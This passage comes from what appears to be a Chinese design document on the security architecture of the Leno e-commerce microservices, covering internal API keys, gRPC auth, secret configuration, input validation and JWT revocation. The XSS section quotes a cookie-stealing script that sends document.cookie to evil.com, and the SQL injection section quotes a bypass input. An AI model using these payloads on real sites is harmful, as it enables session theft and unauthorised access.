- **路径前缀精确匹配**：`NormalizePrefix(_options.RoutePrefix)` 把配置的 `"internal/"` 归一化为 `"/internal"`，`IsInternalPath` 仅匹配 `/internal` 或 `/internal/...`，避免 `/internalinfo` 这类前缀误判
- **`FixedTimeEqualsKey` 防计时侧信道**：用 `CryptographicOperations.FixedTimeEquals` 做常量时间比较，消除"前 N 字节匹配时返回更快"的耗时差，防止攻击者通过测量响应时间逐字节猜解 key
- **Development 环境降级**：`ApiKey` 为空时，Development 环境仅 warning 放行（方便本地开发），生产/Staging 环境 `LogCritical` + 返回 500 拒绝（fail-closed）
- **错误响应 JSON**：使用 `ApiResponse.Fail(statusCode, message)` 统一响应体，序列化为 `{"errorCode":"UNAUTHORIZED","message":"内部服务鉴权失败"}` 风格的 JSON，与全局异常中间件输出一致

### `/api/v1/internal/*` 路由前缀约定

Leno 约定所有 Internal API 必须以 `/api/v1/internal/` 前缀开头，与对外 API 的 `/api/v1/` 前缀区分。`InternalApiKeyOptions.RoutePrefix` 默认值为 `"internal/"`，匹配 `/internal` 与 `/internal/...` 路径。`UseLenoPipeline()` 在管道顺序中把 `InternalApiKeyMiddleware` 放在 `UseAuthentication` 之前，确保内部鉴权先于 JWT 鉴权执行：

```csharp
// [WebApplicationExtensions.cs](file:///c:/Users/Junjie/.trae-cn/worktrees/Leno/feat-project-optimization-plan-O7ECNx/src/BuildingBlocks/Leno.Infrastructure/Dependencies/WebApplicationExtensions.cs#L173-L208)

public static WebApplication UseLenoPipeline(this WebApplication app)
{
    // 1. 开发环境映射 OpenAPI
    if (app.Environment.IsDevelopment()) { app.MapOpenApi(); }

    // 2. 全局异常处理（领域异常 → HTTP 状态码映射）
    app.UseMiddleware<GlobalExceptionMiddleware>();

    // 3. 内部 API Key 鉴权中间件（校验 internal/ 前缀路由）
    app.UseMiddleware<InternalApiKeyMiddleware>();

    // 4. 认证
    app.UseAuthentication();

    // 5. 授权
    app.UseAuthorization();

    // 6. 启动时校验内部 API Key 配置（非开发环境缺失则抛异常阻止启动）
    app.EnsureInternalApiKeyConfigured();

    // ...省略 Prometheus、健康检查、Controllers
    return app;
}
```

启动期 `app.EnsureInternalApiKeyConfigured()` 做二次兜底——非开发环境 `ApiKey` 为空直接抛 `InvalidOperationException` 阻止启动，避免运行时才发现配置缺失：

```csharp
// [InternalApiKeyExtensions.cs](file:///c:/Users/Junjie/.trae-cn/worktrees/Leno/feat-project-optimization-plan-O7ECNx/src/BuildingBlocks/Leno.Infrastructure/Auth/InternalApiKeyExtensions.cs#L22-L40)

public static IApplicationBuilder EnsureInternalApiKeyConfigured(this IApplicationBuilder app)
{
    var env = app.ApplicationServices.GetRequiredService<IHostEnvironment>();
    if (env.IsDevelopment()) { return app; }

    var options = app.ApplicationServices.GetRequiredService<IOptions<InternalApiKeyOptions>>().Value;
    if (string.IsNullOrEmpty(options.ApiKey))
    {
        throw new InvalidOperationException(
            "生产环境未配置 InternalAuth:ApiKey，拒绝启动。请在配置（InternalAuth:ApiKey）中设置非空内部鉴权密钥。");
    }
    return app;
}
```

### 12 条 Internal API 路由清单

下表列出 Leno 当前已定义的 12 条 Internal API 路由，与第 5 章跨 BC 通信清单一致：

| BC | 路由 | HTTP 方法 | 用途 |
|---|---|---|---|
| Product | `/internal/v1/products/skus/{skuId}` | GET | 查询 SKU 详情 |
| Product | `/internal/v1/products/skus/batch` | POST | 批量查询 SKU |
| Promotion | `/internal/v1/promotions/calculate` | POST | 计算订单优惠 |
| Promotion | `/internal/v1/promotions/lock-coupon` | POST | 锁定优惠券 |
| Promotion | `/internal/v1/promotions/release-coupons` | POST | 释放优惠券 |
| PointsMembership | `/internal/v1/points/trial-offset` | POST | 试算积分抵扣 |
| PointsMembership | `/internal/v1/points/freeze` | POST | 冻结积分 |
| PointsMembership | `/internal/v1/points/release` | POST | 释放积分 |
| UserAuth | `/internal/v1/users/{userId}/contacts` | GET | 查询用户联系方式 |
| Order | `/internal/v1/orders/{orderId}/status` | GET | 查询订单状态 |
| Payment | `/internal/v1/payments/{orderId}/info` | GET | 查询支付信息 |
| Notification | `/internal/v1/notifications/send` | POST | 发送通知 |

所有 12 条路由都受 `InternalApiKeyMiddleware` 保护，调用方必须携带 `X-Internal-Key` 头，否则返回 401。新增 Internal API 时必须遵循 `/api/v1/internal/*` 前缀约定，否则不会被鉴权中间件拦截，造成安全漏洞。

---

## 7.4 gRPC 鉴权

第 5 章介绍了 Leno 防腐层的双轨方案：HTTP（HttpClient）与 gRPC 并行，通过 `AntiCorruption:UseGrpc` 开关灰度切换。gRPC 鉴权与 HTTP 鉴权在语义上完全一致——都是 `x-internal-key` 头校验——但实现机制不同：HTTP 走 `InternalApiKeyMiddleware`，gRPC 走 `GrpcInternalKeyInterceptor` 拦截器。

### gRPC 鉴权机制

gRPC 不走 HTTP 中间件管道，而是基于 metadata（gRPC 等价于 HTTP 头）与 Interceptor（拦截器）实现鉴权。调用方在 metadata 中注入 `x-internal-key`，被调用方在 `UnaryServerHandler` 拦截器中校验。校验失败抛 `RpcException(StatusCode.Unauthenticated)`，调用方收到后由防腐层 Dispatcher 判定为业务异常不降级（不重试）。

### GrpcInternalKeyInterceptor 代码示例

`GrpcInternalKeyInterceptor` 位于共享内核 `Leno.Infrastructure.AntiCorruption`，所有提供 gRPC 服务的 BC 在注册 gRPC 服务端时统一启用：

```csharp
// [GrpcInternalKeyInterceptor.cs](file:///c:/Users/Junjie/.trae-cn/worktrees/Leno/feat-project-optimization-plan-O7ECNx/src/BuildingBlocks/Leno.Infrastructure/AntiCorruption/GrpcInternalKeyInterceptor.cs#L13-L57)

public sealed class GrpcInternalKeyInterceptor : Interceptor
{
    private const string HeaderName = "x-internal-key";
    private readonly IOptionsMonitor<AntiCorruptionOptions> _options;
    private readonly ILogger<GrpcInternalKeyInterceptor> _logger;

    public GrpcInternalKeyInterceptor(
        IOptionsMonitor<AntiCorruptionOptions> options,
        ILogger<GrpcInternalKeyInterceptor> logger)
    {
        ArgumentNullException.ThrowIfNull(options);
        ArgumentNullException.ThrowIfNull(logger);
        _options = options;
        _logger = logger;
    }

    public override async Task<TResponse> UnaryServerHandler<TRequest, TResponse>(
        TRequest request,
        ServerCallContext context,
        UnaryServerMethod<TRequest, TResponse> continuation)
    {
        ArgumentNullException.ThrowIfNull(context);
        ArgumentNullException.ThrowIfNull(continuation);

        var expectedKey = _options.CurrentValue.InternalApiKey;
        if (string.IsNullOrEmpty(expectedKey))
        {
            _logger.LogError("AntiCorruption:InternalApiKey 配置缺失，拒绝所有 gRPC 调用");
            throw new RpcException(new Status(StatusCode.Unauthenticated,
                "Internal API key not configured on server"));
        }

        var providedKey = context.RequestHeaders
            .FirstOrDefault(h => h.Key.Equals(HeaderName, StringComparison.OrdinalIgnoreCase))
            ?.Value;

        if (string.IsNullOrEmpty(providedKey) || providedKey != expectedKey)
        {
            _logger.LogWarning("gRPC call rejected: invalid or missing x-internal-key header");
            throw new RpcException(new Status(StatusCode.Unauthenticated,
                "Invalid or missing x-internal-key"));
        }

        return await continuation(request, context).ConfigureAwait(false);
    }
}
```

关键设计要点：

- **`HeaderName = "x-internal-key"`**：与 HTTP 模式的 `X-Internal-Key` 语义一致，gRPC metadata 规范要求小写
- **`IOptionsMonitor<AntiCorruptionOptions>`**：用 `IOptionsMonitor` 而非 `IOptions`，支持 Consul KV 热重载后实时生效，无需重启服务
- **`expectedKey` 缺失直接拒绝**：`AntiCorruptionOptions.InternalApiKey` 为空时 `LogError` + 抛 `Unauthenticated`，gRPC 模式不区分 Development/Production，配置缺失即拒绝所有调用（fail-closed）
- **`providedKey != expectedKey` 普通比较**：与 `InternalApiKeyMiddleware` 的 `FixedTimeEquals` 不同，gRPC 拦截器用普通字符串比较。这是因为 gRPC 调用通常发生在内网服务网格内，计时侧信道攻击面更小；如需更强防护可替换为 `CryptographicOperations.FixedTimeEquals`
- **`RpcException(Unauthenticated)`**：调用方通过 `RpcException` 的 `StatusCode` 判定失败原因，防腐层 Dispatcher 据此判定为业务异常不触发降级/重试

### gRPC 客户端注入 metadata

调用方 BC 在 gRPC 客户端构造 metadata，注入 `x-internal-key` 头。以 Cart BC 调用 Product BC 的 `GrpcProductSnapshotAntiCorruptionClient` 为例：

```csharp
// [GrpcProductSnapshotAntiCorruptionClient.cs](file:///c:/Users/Junjie/.trae-cn/worktrees/Leno/feat-project-optimization-plan-O7ECNx/src/Services/Cart/Leno.Cart.Infrastructure/Services/Grpc/GrpcProductSnapshotAntiCorruptionClient.cs#L39-L65)

public Task<SkuSnapshotDto> GetSkuSnapshotAsync(Guid skuId, CancellationToken ct = default)
    => ExecuteAsync("get_sku_snapshot", async token =>
{
    var request = new GetSkuInfoRequest
    {
        SkuId = (long)skuId.GetHashCode(),
        SkuIdStr = skuId.ToString()
    };

    var metadata = BuildMetadata();
    var proto = await _client.GetSkuInfoAsync(request, metadata, cancellationToken: token)
        .ConfigureAwait(false);

    return MapToDto(proto, skuId);
}, ct);

private Metadata BuildMetadata()
{
    var metadata = new Metadata();
    var currentOptions = _options.CurrentValue;
    if (currentOptions.TargetInternalApiKeys.TryGetValue(TargetBc, out var key) && !string.IsNullOrEmpty(key))
    {
        metadata.Add(InternalKeyHeader, key);
    }
    return metadata;
}
```

`BuildMetadata()` 从 `AntiCorruptionOptions.TargetInternalApiKeys["Product"]` 读取目标 BC 的 InternalApiKey（注意是目标 BC 的 key，不是本 BC 的 key），注入到 gRPC metadata。`TargetInternalApiKeys` 是 `Dictionary<string, string>`，键为目标 BC 名（如 `"Product"`），值从 Consul KV `leno/security/internal-key/product` 注入。

### 与 HTTP 鉴权一致性

| 维度 | HTTP 模式 | gRPC 模式 |
|---|---|---|
| 头名称 | `X-Internal-Key` | `x-internal-key`（小写） |
| 校验组件 | `InternalApiKeyMiddleware` | `GrpcInternalKeyInterceptor` |
| 配置来源 | `InternalApiKeyOptions.ApiKey` | `AntiCorruptionOptions.InternalApiKey` |
| 调用方注入 | HttpClient 默认头/DelegatingHandler | `Metadata` 构造 |
| 失败响应 | 401 JSON `{"errorCode":"UNAUTHORIZED",...}` | `RpcException(Unauthenticated)` |
| 计时侧信道防护 | `FixedTimeEquals` | 普通字符串比较 |
| 配置缺失策略 | Dev 放行 / Prod 500 | 一律拒绝 |

两者语义一致：调用方携带 key，被调用方校验 key。差异在实现机制——HTTP 走 ASP.NET Core 中间件管道，gRPC 走 Interceptor 拦截器；HTTP 用 `FixedTimeEquals` 防计时侧信道，gRPC 因内网调用面较小用普通比较。设计文档约定两者必须配对实现，避免 HTTP→gRPC 灰度切换时出现鉴权真空。

---

## 7.5 敏感配置管理

**敏感配置** 指一旦泄露会直接导致安全风险的配置项，包括 JWT SecretKey、支付私钥、短信 API 密钥、OAuth2 客户端密钥、InternalApiKey 等。这类配置**禁止**硬编码在代码或提交到 Git 仓库的 `appsettings.json`，必须通过环境变量或 Consul KV 注入。Leno 采用 4 层配置优先级 + 启动校验的双重保障。

### 4 层配置优先级

ASP.NET Core 配置系统按注册顺序合并，后注册的覆盖先注册的。Leno 的 4 层优先级从高到低：



1. **环境变量（最高）**：操作系统级别注入，适合容器场景。`.env.example` 定义了 `JWT_SECRET_KEY`、`INTERNAL_AUTH_API_KEY` 等 5 个核心环境变量模板
2. **Consul KV**：远程配置中心，键前缀 `leno/config/*`，支持热重载（30 秒轮询）。生产环境敏感配置主要存于此
3. **`appsettings.{Env}.json`**：环境特定配置，如 `appsettings.Docker.json` 覆盖 Consul URL 为 `http://consul:8500`、Redis 为 `redis:6379`
4. **`appsettings.json`（最低）**：提交到 Git 的默认配置，敏感字段仅保留 `${VAR}` 占位符，由 `ConfigCenterExtensions.ResolvePlaceholders` 在运行时解析为环境变量值

`appsettings.json` 中 JWT 配置示例——`SecretKey` 字段写占位符 `${JWT_SECRET_KEY}`，运行时由 `ResolvePlaceholders` 替换为环境变量 `JWT_SECRET_KEY` 的值：

```json
// [appsettings.json](file:///c:/Users/Junjie/.trae-cn/worktrees/Leno/feat-project-optimization-plan-O7ECNx/src/ApiGateway/Leno.ApiGateway/appsettings.json#L79-L86)

"Jwt": {
  "Enabled": true,
  "Issuer": "Leno.UserAuth",
  "Audience": "Leno.Clients",
  "SecretKey": "${JWT_SECRET_KEY}",
  "AccessTokenExpiryMinutes": 120,
  "RefreshTokenExpiryDays": 7
}
```

### 环境变量注入示例

`.env.example` 是环境变量模板，复制为 `.env` 后填入实际值，docker-compose 读取 `.env` 注入到容器环境变量：

```bash
# [.env.example](file:///c:/Users/Junjie/.trae-cn/worktrees/Leno/feat-project-optimization-plan-O7ECNx/.env.example)

# Leno 电商平台环境变量模板
# 复制为 .env 并填入实际值

# JWT
JWT_SECRET_KEY=请填入至少64字节随机串

# SQL Server
MSSQL_SA_PASSWORD=请填入强密码

# RabbitMQ
RABBITMQ_DEFAULT_USER=leno
RABBITMQ_DEFAULT_PASS=请填入强密码

# Grafana
GF_SECURITY_ADMIN_USER=leno
GF_SECURITY_ADMIN_PASSWORD=请填入强密码

# InternalAuth（快轨临时共用，慢轨 M5.2 各 BC 独立）
INTERNAL_AUTH_API_KEY=请填入32字节随机串
```

`.env` 文件本身被 `.gitignore` 排除，不会提交到 Git 仓库。生产环境通过 K8s Secret 或运维平台注入，开发者本地通过 `.env` 文件管理。

### ValidateSensitiveConfig 启动校验机制

仅靠运行时配置解析不足以保证安全——若环境变量缺失，`ResolvePlaceholders` 会保留 `${JWT_SECRET_KEY}` 原文，JWT 签发时用占位符当 SecretKey，造成安全风险。`ConfigCenterExtensions.ValidateSensitiveConfig` 扩展方法在应用启动后做强制校验：

```csharp
// [ConfigCenterExtensions.cs](file:///c:/Users/Junjie/.trae-cn/worktrees/Leno/feat-project-optimization-plan-O7ECNx/src/BuildingBlocks/Leno.Infrastructure/Configuration/ConfigCenterExtensions.cs#L23-L38)

public static readonly string[] SensitiveConfigKeys =
{
    "Payment:Alipay:AppId",
    "Payment:Alipay:PrivateKey",
    "Payment:Alipay:PublicKey",
    "Payment:WeChatPay:AppId",
    "Payment:WeChatPay:MchId",
    "Payment:WeChatPay:ApiKey",
    "SMS:ApiKey",
    "SMS:ApiSecret",
    "OAuth2:WeChat:AppId",
    "OAuth2:WeChat:AppSecret",
    "OAuth2:Apple:ClientId",
    "OAuth2:Apple:ClientSecret",
    "Jwt:SecretKey"
};
```

`SensitiveConfigKeys` 列出 13 项必须配置的敏感键，覆盖支付（Alipay/WeChatPay 共 6 项）、短信（2 项）、OAuth2（微信/Apple 共 4 项）、JWT（1 项）。`ValidateSensitiveConfig` 扩展方法在 `Program.cs` 启动期调用：

```csharp
// [ConfigCenterExtensions.cs](file:///c:/Users/Junjie/.trae-cn/worktrees/Leno/feat-project-optimization-plan-O7ECNx/src/BuildingBlocks/Leno.Infrastructure/Configuration/ConfigCenterExtensions.cs#L168-L214)

public static bool ValidateSensitiveConfig(this IConfiguration configuration)
{
    ArgumentNullException.ThrowIfNull(configuration);

    var missing = SensitiveConfigKeys
        .Where(key => string.IsNullOrWhiteSpace(configuration[key]))
        .ToList();

    // M5.2: InternalApiKey 各 BC 独立校验
    var bcName = configuration["Service:Name"];
    if (string.IsNullOrWhiteSpace(bcName))
    {
        Console.WriteLine("[WARN] Service:Name 配置缺失，跳过 InternalApiKey 独立校验");
    }
    else
    {
        var internalKey = configuration[$"Security:InternalApiKey:{bcName}"];
        if (string.IsNullOrWhiteSpace(internalKey))
        {
            var sharedKey = configuration["Security:InternalApiKey:Shared"];
            if (string.IsNullOrWhiteSpace(sharedKey))
            {
                missing.Add($"Security:InternalApiKey:{bcName}");
                Console.WriteLine(
                    $"[ERROR] 敏感配置缺失：Security:InternalApiKey:{bcName} 与 Security:InternalApiKey:Shared 均为空，"
                    + $"请通过 Consul KV 配置 leno/security/internal-key/{bcName}");
            }
            else
            {
                Console.WriteLine(
                    $"[WARN] BC {bcName} 仍在使用 Shared InternalApiKey，请尽快迁移到独立 key（M5.2）");
            }
        }
        else if (internalKey.Length < 44)
        {
            missing.Add($"Security:InternalApiKey:{bcName}(长度不足)");
            Console.WriteLine(
                $"[ERROR] Security:InternalApiKey:{bcName} 长度不足，至少 32 字节（base64 编码 44 字符），"
                + $"当前 {internalKey.Length} 字符");
        }
    }

    return missing.Count == 0;
}
```

关键设计要点：

- **`SensitiveConfigKeys` 13 项**：支付 6 项（Alipay AppId/PrivateKey/PublicKey、WeChatPay AppId/MchId/ApiKey）+ 短信 2 项（ApiKey/ApiSecret）+ OAuth2 4 项（WeChat AppId/AppSecret、Apple ClientId/ClientSecret）+ JWT 1 项（SecretKey）
- **InternalApiKey 各 BC 独立校验**：读取 `Service:Name` 配置（如 `"cart"`），优先校验 `Security:InternalApiKey:{bcName}`；缺失时降级为 `Security:InternalApiKey:Shared` 共享 key（兼容期 warning）；二者皆缺则加入 `missing` 列表
- **InternalApiKey 长度 ≥ 44 字符**：32 字节随机数 base64 编码后为 44 字符，长度不足直接判为校验失败（防弱密钥）
- **返回 `bool`，由调用方决定是否阻止启动**：Cart BC 的 `Program.cs` 在非 Development 环境抛 `InvalidOperationException` 阻止启动，Development 环境仅 warning

Cart BC `Program.cs` 的调用模式：

```csharp
// [Program.cs](file:///c:/Users/Junjie/.trae-cn/worktrees/Leno/feat-project-optimization-plan-O7ECNx/src/Services/Cart/Leno.Cart.Api/Program.cs#L27-L40)

var app = builder.Build();

// 启动前校验敏感配置
if (!app.Configuration.ValidateSensitiveConfig())
{
    var missing = app.Configuration.GetMissingSensitiveConfigKeys();
    var logger = app.Services.GetRequiredService<ILogger<Program>>();
    logger.LogWarning("敏感配置缺失：{MissingKeys}", string.Join(", ", missing));
    // 生产环境拒绝启动，开发环境仅警告
    if (!app.Environment.IsDevelopment())
    {
        throw new InvalidOperationException($"敏感配置缺失：{string.Join(", ", missing)}");
    }
}
```

### 4 类必须环境变量配置清单

部署 Leno 时必须配置的环境变量清单：

| 环境变量 | 用途 | 长度要求 | 注入方式 |
|---|---|---|---|
| `JWT_SECRET_KEY` | JWT HS256 签名密钥 | ≥ 64 字节随机串 | `.env` / K8s Secret |
| `INTERNAL_AUTH_API_KEY` | 内部 API 鉴权共享密钥（兼容期） | ≥ 32 字节随机串 | `.env` / Consul KV |
| `MSSQL_SA_PASSWORD` | SQL Server SA 密码 | 强密码（含大小写+数字+符号） | `.env` / K8s Secret |
| `RABBITMQ_DEFAULT_PASS` | RabbitMQ 默认用户密码 | 强密码 | `.env` / K8s Secret |
| `GF_SECURITY_ADMIN_PASSWORD` | Grafana 管理员密码 | 强密码 | `.env` / K8s Secret |

11 BC 各自独立的 `Security:InternalApiKey:{bc}` 通过 Consul KV `leno/security/internal-key/{bc}` 注入，不通过环境变量，便于热重载与集中管理。

---

## 7.6 输入验证

鉴权解决"你是谁、能做什么"，但合法用户仍可能提交非法输入（误操作或恶意构造）。输入验证是安全防线的最后一公里，Leno 采用 FluentValidation 在 Application 层做 DTO 校验，配合框架默认的 HTML 编码与参数化查询防御 XSS 与 SQL 注入。

### FluentValidation 规则示例

**FluentValidation** 是 .NET 流行的强类型验证库，通过链式 Fluent API 声明验证规则。Leno 在每个 BC 的 `Application.Validators` 目录下为每个 DTO 定义 Validator，由 MediatR Pipeline Behavior 在 Command 进入 Handler 前自动调用。以 Cart BC 的 `AddCartItemDtoValidator` 为例：

```csharp
// [CartValidators.cs](file:///c:/Users/Junjie/.trae-cn/worktrees/Leno/feat-project-optimization-plan-O7ECNx/src/Services/Cart/Leno.Cart.Application/Validators/CartValidators.cs#L1-L39)

using FluentValidation;
using Leno.Cart.Application.DTOs;

namespace Leno.Cart.Application.Validators;

/// <summary>
/// 添加购物车项 DTO 校验。
/// </summary>
public sealed class AddCartItemDtoValidator : AbstractValidator<AddCartItemDto>
{
    public AddCartItemDtoValidator()
    {
        RuleFor(x => x.SkuId).NotEqual(Guid.Empty).WithMessage("SkuId 不可为空");
        RuleFor(x => x.SellerId).NotEqual(Guid.Empty).WithMessage("SellerId 不可为空");
        RuleFor(x => x.Quantity).InclusiveBetween(1, 99).WithMessage("购买数量须在 1-99 之间");
    }
}

/// <summary>
/// 更新购物车项数量 DTO 校验。
/// </summary>
public sealed class UpdateCartItemQuantityDtoValidator : AbstractValidator<UpdateCartItemQuantityDto>
{
    public UpdateCartItemQuantityDtoValidator()
    {
        RuleFor(x => x.Quantity).InclusiveBetween(1, 99).WithMessage("购买数量须在 1-99 之间");
    }
}

/// <summary>
/// 批量选中购物车项 DTO 校验。
/// </summary>
public sealed class SelectCartItemsDtoValidator : AbstractValidator<SelectCartItemsDto>
{
    public SelectCartItemsDtoValidator()
    {
        RuleFor(x => x.SkuIds).NotEmpty().WithMessage("SkuIds 不可为空");
    }
}
```

验证规则要点：

- **`NotEqual(Guid.Empty)`**：防止前端传 `00000000-0000-0000-0000-000000000000` 占位 GUID
- **`InclusiveBetween(1, 99)`**：边界校验，防止负数或超大数量（限制单次购买 99 件，超过需拆单）
- **`NotEmpty()`**：集合非空校验，防止空列表进入批量操作
- **`WithMessage(...)`**：自定义错误消息，返回给前端用于表单提示

校验失败时，MediatR Pipeline 抛 `ValidationException`，全局异常中间件 `GlobalExceptionMiddleware` 捕获后转为 400 Bad Request + 字段级错误详情返回客户端。

### XSS 防护

**XSS（Cross-Site Scripting，跨站脚本攻击）** 指攻击者向网页注入恶意脚本（如 `<script>fetch('http://evil.com?cookie='+document.cookie)</script>`），在其他用户浏览器执行，窃取 Cookie 或劫持会话。

Leno 的 XSS 防护策略：

1. **后端不渲染 HTML**：Leno 是 SPA + BFF 架构，后端只返回 JSON API，前端 React/Vue 默认对插值做 HTML 编码，不存在服务端模板注入面
2. **输入校验拒绝非法字符**：FluentValidation 可针对字符串字段加正则规则，拒绝包含 `<script>` 等标签的输入
3. **存储型 XSS 防护**：用户提交的评论、商品描述等富文本字段，入库前由 Application 层调用 `HtmlSanitizer` 清洗（白名单标签/属性），渲染时前端再次转义
4. **CSP 头**：API Gateway 可配置 `Content-Security-Policy` 头限制脚本来源（当前未启用，作为后续优化项）

### SQL 注入防护

**SQL 注入（SQL Injection）** 指攻击者把 SQL 命令插入到输入参数中，让后端错误拼接 SQL 后执行非预期查询。例如登录接口若直接拼接 `SELECT * FROM Users WHERE Account = '${account}'`，攻击者输入 `' OR '1'='1` 即可绕过密码校验。

Leno 的 SQL 注入防护：

1. **EF Core 参数化查询**：所有数据库访问通过 EF Core，LINQ 表达式（如 `dbContext.Users.Where(u => u.Account == account)`）自动编译为参数化 SQL，参数与 SQL 文本分离，攻击者输入永远被视为数据而非 SQL 语法
2. **禁止拼接 SQL**：编码规范禁止用 `FromSqlRaw` + 字符串拼接，必须用 `FromSqlInterpolated` 或参数化形式 `FromSqlRaw("WHERE Id = {0}", id)`
3. **输入校验**：FluentValidation 限制字段长度与字符集，减小注入面
4. **最小权限账号**：应用连接数据库的账号仅授予 SELECT/INSERT/UPDATE/DELETE 权限，无 DDL 权限，即使注入成功也无法删表

### CSRF 防护

**CSRF（Cross-Site Request Forgery，跨站请求伪造）** 指攻击者诱导已登录用户在非自愿情况下发起请求（如 ``），利用浏览器自动携带 Cookie 完成操作。

Leno 的 CSRF 防护：

1. **不使用 Cookie 携带认证凭据**：Leno 采用 Bearer Token 方案，JWT 存于前端 localStorage，通过 `Authorization: Bearer <token>` 头携带，浏览器不会自动附加到跨站请求，天然免疫 CSRF
2. **CORS 严格白名单**：API Gateway 配置 `AllowedOrigins` 白名单（如 `https://leno.example.com`），非白名单 Origin 的请求被浏览器拦截
3. **SameSite Cookie（如使用）**：刷新令牌若通过 Cookie 传递，设置 `SameSite=Strict` 或 `SameSite=Lax`，阻止跨站请求携带
4. **幂等性约束**：POST/PUT/DELETE 接口要求 `Idempotency-Key` 头，重放攻击者无法伪造有效 key

---

## 7.7 JWT 黑名单与令牌撤销

JWT 的"自包含"特性带来一个副作用：令牌一旦签发，在过期前服务端无法主动使其失效。用户登出、封号、密码修改等场景需要立即撤销令牌，纯 JWT 无法实现。Leno 通过 Redis 黑名单机制补足这一能力。

### JWT 黑名单场景

需要主动撤销 JWT 的典型场景：

1. **用户主动登出**：用户点击"退出登录"，期望当前令牌立即失效，即使未过期也不能再用
2. **账号封禁**：管理员封禁某用户，该用户所有在途令牌应立即失效
3. **密码修改/重置**：用户修改密码后，旧令牌应失效，强制重新登录
4. **安全事件响应**：检测到令牌泄露（如日志中明文出现），批量吊销相关令牌
5. **角色变更**：用户从 Buyer 升级为 Seller，旧角色令牌应失效，强制重新签发

### Leno JWT 黑名单实现

Leno 采用 Redis SET 存储被撤销的 `jti`（JWT ID），Key 格式 `leno:jwt:blacklist:{jti}`，Value 为 `"1"`，TTL 设为令牌剩余有效期——令牌自然过期后黑名单条目自动清理，避免无限增长。`JwtBlacklistService` 位于 API Gateway 层，实现 `IJwtBlacklistService` 接口：

```csharp
// [JwtBlacklistService.cs](file:///c:/Users/Junjie/.trae-cn/worktrees/Leno/feat-project-optimization-plan-O7ECNx/src/ApiGateway/Leno.ApiGateway/Services/JwtBlacklistService.cs#L1-L47)

using System.Collections.Concurrent;
using Microsoft.Extensions.Logging;
using StackExchange.Redis;

namespace Leno.ApiGateway.Services;

/// <summary>
/// 基于 Redis 的 JWT 黑名单实现。
/// Key 格式：leno:jwt:blacklist:{jti}，Value：1，TTL = token 剩余有效期。
/// 三层保障：Redis Pub/Sub 实时 + 定时拉取兜底 + 启动预热。
/// </summary>
public sealed class JwtBlacklistService : IJwtBlacklistService
{
    private readonly IConnectionMultiplexer _redis;
    private readonly ILogger<JwtBlacklistService> _logger;
    private readonly ConcurrentDictionary<string, byte> _localCache = new();

    public JwtBlacklistService(IConnectionMultiplexer redis, ILogger<JwtBlacklistService> logger)
    {
        _redis = redis;
        _logger = logger;
    }

    public async Task<bool> IsRevokedAsync(string jti, CancellationToken ct = default)
    {
        // 先查本地 Caffeine 缓存
        if (_localCache.ContainsKey(jti)) return true;

        // 再查 Redis
        var db = _redis.GetDatabase();
        var exists = await db.KeyExistsAsync($"leno:jwt:blacklist:{jti}");
        if (exists)
        {
            _localCache.TryAdd(jti, 0);
            return true;
        }
        return false;
    }

    public async Task RevokeAsync(string jti, TimeSpan ttl, CancellationToken ct = default)
    {
        var db = _redis.GetDatabase();
        await db.StringSetAsync($"leno:jwt:blacklist:{jti}", "1", ttl);
        _localCache.TryAdd(jti, 0);
        _logger.LogInformation("JWT 已吊销 Jti={Jti} Ttl={Ttl}分钟", jti, ttl.TotalMinutes);
    }
}
```

关键设计要点：

- **双层检查**：`ConcurrentDictionary<string, byte> _localCache` 本地缓存 + Redis `leno:jwt:blacklist:{jti}` 远程存储。本地缓存命中直接返回，避免每次请求都查 Redis；本地未命中再查 Redis，命中后回填本地缓存
- **`ConcurrentDictionary` 本地缓存**：值用 `byte`（1 字节）节省内存，仅作为存在性标记；`TryAdd` 保证幂等，多次回填不抛异常
- **TTL = token 剩余有效期**：`RevokeAsync` 调用方传入 `ttl`，Redis 自动过期清理，黑名单容量与活跃令牌数成正比，不会无限增长
- **位于 API Gateway 层**：黑名单检查发生在网关本地验签之后、转发下游之前，下游 BC 不感知黑名单逻辑，业务 BC 无需实现

### 网关校验流程

`JwtBlacklistMiddleware` 紧随 `UseAuthentication` 之后，对已认证请求检查 `jti` 是否在黑名单：

```csharp
// [JwtBlacklistMiddleware.cs](file:///c:/Users/Junjie/.trae-cn/worktrees/Leno/feat-project-optimization-plan-O7ECNx/src/ApiGateway/Leno.ApiGateway/Middleware/JwtBlacklistMiddleware.cs#L10-L45)

public sealed class JwtBlacklistMiddleware
{
    private readonly RequestDelegate _next;
    private readonly IJwtBlacklistService _blacklistService;
    private readonly GatewayMetricsService _metrics;

    public JwtBlacklistMiddleware(
        RequestDelegate next,
        IJwtBlacklistService blacklistService,
        GatewayMetricsService metrics)
    {
        _next = next;
        _blacklistService = blacklistService;
        _metrics = metrics;
    }

    public async Task InvokeAsync(HttpContext context)
    {
        // 仅对已认证请求检查黑名单
        if (context.User?.Identity?.IsAuthenticated == true)
        {
            var jti = context.User.FindFirst(JwtRegisteredClaimNames.Jti)?.Value;
            if (!string.IsNullOrEmpty(jti))
            {
                if (await _blacklistService.IsRevokedAsync(jti, context.RequestAborted))
                {
                    _metrics.RecordBlacklistHit();
                    context.Response.StatusCode = StatusCodes.Status401Unauthorized;
                    await context.Response.WriteAsJsonAsync(new { code = 401, message = "Token 已被吊销" });
                    return;
                }
            }
        }

        await _next(context);
    }
}
```

- **仅对已认证请求检查**：未认证请求直接放行，由后续白名单中间件或 `UseAuthorization` 处理
- **`jti` 必须存在**：JWT 必须携带 `Jti` Claim，否则跳过黑名单检查（兼容旧令牌）
- **命中黑名单返回 401**：响应体 `{"code":401,"message":"Token 已被吊销"}`，同时 `RecordBlacklistHit()` 递增 `gateway_blacklist_hits` 指标，便于监控吊销频率

### 与 UserAuth BC 登出实现的关联

UserAuth BC 的 `AuthController.LogoutAsync` 端点负责发起吊销——从当前 JWT 提取 `jti` 与 `exp`，计算剩余 TTL，调用 `IJwtRevocationService.RevokeAsync` 写入 Redis：

```csharp
// [AuthController.cs](file:///c:/Users/Junjie/.trae-cn/worktrees/Leno/feat-project-optimization-plan-O7ECNx/src/Services/UserAuth/Leno.UserAuth.Api/Controllers/AuthController.cs#L57-L81)

/// <summary>登出并吊销当前 JWT（写入黑名单，TTL 为 token 剩余有效期）。</summary>
[HttpPost("logout")]
[Authorize]
[ProducesResponseType(typeof(ApiResponse), StatusCodes.Status200OK)]
public async Task<IActionResult> LogoutAsync(CancellationToken ct)
{
    // 从 JWT 提取 jti 与剩余有效期
    var jti = User.FindFirst(JwtRegisteredClaimNames.Jti)?.Value;
    var expClaim = User.FindFirst(JwtRegisteredClaimNames.Exp)?.Value;

